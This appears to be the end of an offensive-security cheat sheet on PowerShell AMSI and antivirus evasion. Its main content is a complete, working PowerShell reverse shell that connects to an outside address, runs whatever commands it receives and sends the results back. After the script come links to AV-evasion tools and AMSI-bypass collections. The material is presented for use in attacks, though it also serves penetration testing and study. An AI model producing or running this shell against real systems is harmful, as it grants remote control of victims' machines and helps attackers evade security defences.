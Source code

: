 Reverse PowerShell:
```powershell
$socket = new-object System.Net.Sockets.TcpClient('10.10.14.5', 4445);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do{
        $writer.Write("PS> ");
        $writer.Flush();
        $read = $null;
        while($stream.DataAvailable -or ($read = $stream.Read($buffer, 0, 1024)) -eq $null){}
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer, 0, $read);
        $sendback = (iex $data 2>&1 | Out-String );
        $sendback2  = $sendback;
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
        $writer.Write($sendbyte,0,$sendbyte.Length);
}While ($true);
$writer.close();$socket.close();
```






## Tools
Tools that may help with AV Evasion: 
- https://github.com/phra/PEzor
- https://github.com/bats3c/darkarmour
- https://github.com/loadenmb/tvasion




## References


[pentestlaboratories article](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
[AMSI Documentation](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
[Documentation AMSI](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
[Documentation - How AMSI Helps](https://learn.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)
[ASMI Result Documentation](https://learn.microsoft.com/en-us/windows/win32/api/amsi/ne-amsi-amsi_result)
[AMSI Documentation](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
[InsecurePowershell](https://github.com/PowerShell/PowerShell/compare/master...cobbr:master)
[S3cur3Th1sSh1t's currated List](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
[Matt Graeber's Reflection](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
[Buaq.net](https://buaq.net/go-98295.html)
[Sinfulz Cheatsheet](https://github.com/sinfulz/JustEvadeBro)